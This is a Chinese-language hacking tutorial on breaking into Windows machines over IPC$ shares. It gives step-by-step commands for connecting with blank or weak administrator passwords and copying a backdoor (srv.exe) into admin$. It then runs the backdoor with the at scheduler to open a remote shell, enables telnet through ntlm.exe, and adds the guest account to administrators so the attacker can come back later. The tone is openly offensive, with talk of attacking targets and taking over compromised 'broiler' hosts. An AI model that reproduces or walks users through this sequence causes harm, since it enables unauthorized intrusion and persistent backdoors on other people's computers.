

IPC黑客入侵命令

IPC共享命名管道的资源，为了让进程间通信而开放的命名管道，可以通过验证用户名和密码获得相应的权限，远程管理计算机和检查计算机的共享资源时使用。

一、相关命令
1、建立空连接：
net use \\IP\ipc$ "" /user:""（一定要注意:这一行命令中包含了3个空格）
2、建立非空连接：
net use \\IP\ipc$ "用户名" /user:"密码" （同样有3个空格）
3、映射默认共享：
net use z: \\IP\c$ "密码" /user:"用户名" （即可将对方的c盘映射为自己的z盘，其他盘类推）
如果已经和目标建立了ipc$，则可以直接用IP+盘符+$访问,具体命令 net use z: \\IP\c$
4、删除一个ipc$连接
net use \\IP\ipc$ /del
5、删除共享映射
net use c: /del 删除映射的c盘，其他盘类推
net use * /del 删除全部,会有提示要求按y确认
提示:对于不熟悉命令行操作的朋友来说.建立ipc$连接后,可以在"我的电脑"或"网上邻居"右键映射网络驱动器,效果一样.
二、经典入侵模式
1. C:\>net use \\127.0.0.1\IPC$ ""/user:"admintitrators"
这是用《流光》扫到的用户名是administrators，密码为"空"的IP地址(空口令?哇,运气好到家了)，如果是打算攻击的话，就可以用这样的命令来与127.0.0.1建立一个连接，因为密码为"空"，所以第一个引号处就不用输入，后面一个双引号里的是用户名，输入administrators，命令即可成功完成。
2. C:\>copy srv.exe \\127.0.0.1\admin$
先复制srv.exe上去，在流光的Tools目录下就有（这里的$是指admin用户的c:\winnt\system32\，大家还可以使用c$、d$，意思是C盘与D盘，这看你要复制到什么地方去了）。
3. C:\>net time \\127.0.0.1
查查时间，发现127.0.0.1 的当前时间是 2002/3/19 上午 11:00，命令成功完成。
4. C:\>at \\127.0.0.1 11:05 srv.exe
用at命令启动srv.exe吧（这里设置的时间要比主机时间快，不然你怎么启动啊，呵呵！）
5. C:\>net time \\127.0.0.1
再查查到时间没有？如果127.0.0.1 的当前时间是 2002/3/19 上午 11:05，那就准备开始下面的命令。
6. C:\>telnet 127.0.0.1 99
这里会用到Telnet命令吧，注意端口是99。Telnet默认的是23端口，但是我们使用的是SRV在对方计算机中为我们建立一个99端口的Shell。
虽然我们可以Telnet上去了，但是SRV是一次性的，下次登录还要再激活！所以我们打算建立一个Telnet服务！这就要用到ntlm了
7.C:\>copy ntlm.exe \\127.0.0.1\admin$
用Copy命令把ntlm.exe上传到主机上（ntlm.exe也是在《流光》的Tools目录中）。
8. C:\WINNT\system32>ntlm
输入ntlm启动（这里的C:\WINNT\system32>指的是对方计算机，运行ntlm其实是让这个程序在对方计算机上运行）。当出现"DONE"的时候，就说明已经启动正常。然后使用"net start telnet"来开启Telnet服务！
9. Telnet 127.0.0.1，接着输入用户名与密码就进入对方了，操作就像在DOS上操作一样简单！(然后你想做什么?想做什么就做什么吧,哈哈)
为了以防万一,我们再把guest激活加到管理组
10. C:\>net user guest /active:yes
将对方的Guest用户激活
11. C:\>net user guest 1234
将Guest的密码改为1234,或者你要设定的密码
12. C:\>net localgroup administrators guest /add
将Guest变为Administrator^_^（如果管理员密码更改，guest帐号没改变的话，下次我们可以用guest再次访问这台计算机）。
三、ipc$经典入侵步骤
1、net use \\ip\ipc$ 密码 /user:用户名
2、copy 文件名 \\ip\c$
3、net time \\ip
4、at \\ip 时间 命令
5、入侵成功，连接你的肉鸡
四、常用的网络命令
net user 查看用户列表
net user 用户名 密码 /add 添加用户
net user 用户名 密码 更改用户密码
net localgroup administrators 用户名 /add 添加用户到管理组
net user 用户名 /delete 删除用户
net user 用户名 查看用户的基本情况
net user 用户名 /active:no 禁用该用户
net user 用户名 /active:yes 启用该用户
net share 查看计算机IPC$共享资源
net share 共享名 查看该共享的情况
net share 共享名=路径 设置共享。例如 netshare c$=c:
net share 共享名 /delete 删除IPC$共享
net stop lanmanserver 关闭ipc$和默认共享依赖的服务
net use 查看IPC$连接情况
net use \\ip\ipc$ "密码" /user:"用户名" ipc$连接
net use \\ip\ipc$ /del 删除一个连接
net use z: \\目标IP\c$ "密码"/user:"用户名" 将对方的c盘映射为自己的z盘
net use z: /del
net time \\ip 查看远程计算机上的时间
copy 路径:\文件名 \\ip\共享名复制文件到已经ipc$连接的计算机上
net view ip 查看计算机上的共享资源
at 查看自己计算机上的计划作业
at \\ip 查看远程计算机上的计划作业
at \\ip 时间 命令(注意加盘符) 在远程计算机上加一个作业
at \\ip 计划作业ID /delete 删除远程计算机上的一个计划作业
at \\ip all /delete 删除远程计算机上的全部计划作业
at \\ip time "echo 5 > c:\t.txt" 在远程计算机上建立文本文件t.txt；
说明：对于去除ntlm部分，可以不上传srv.exe二在自己机子上建立一个和对方主机一样帐号密码的用户，然后用这个用户的身份连接对方。